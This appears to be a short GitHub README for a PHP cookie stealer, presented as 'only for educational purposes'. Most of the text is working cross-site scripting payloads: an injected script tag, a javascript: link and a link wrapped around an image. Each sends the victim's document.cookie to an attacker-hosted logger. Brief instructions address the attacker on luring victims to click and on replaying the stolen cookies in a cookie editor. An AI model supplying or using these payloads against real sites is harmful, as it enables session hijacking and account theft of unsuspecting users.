 ######Cookie stealing
<p>Some cooklie stealing using php</p>
**ONLY FOR EDUCATIONAL PURPOSES**

Some examples of using them:
```
"><script language= "JavaScript">document.location="http://yoursite.com/whateveryouwant.php?cookie=" + document.cookie;document.location="http://www.whateversite.com"</script>
```
yoursite.com is the server you’re hosting your cookie stealer and log file on, and whateversite.com is the vulnerable page you’re exploiting.

The victim just enters the page:
```
<script language="Java script">
document.location="http://www.yourhost.com/cookielogger.php?cookie=&quot; + document.cookie;
</script>
```

Your can also trick the victim into clicking a link that activates javascript.
```
<a href="java script:document.location='http://www.yourhost.com/cookielogger.php?cookie='+document.cookie;">Click here!</a>
```

Clicking an image also can activate the script.For this purpose you can use the below code.
```
<a href="java script:document.location='http://www.yourhost.com/cookielogger.php?cookie='+document.cookie;"&gt;
<img src="URL OF THE IMAGE"/></a>
```

To use the information download a cookie editor such as firebug.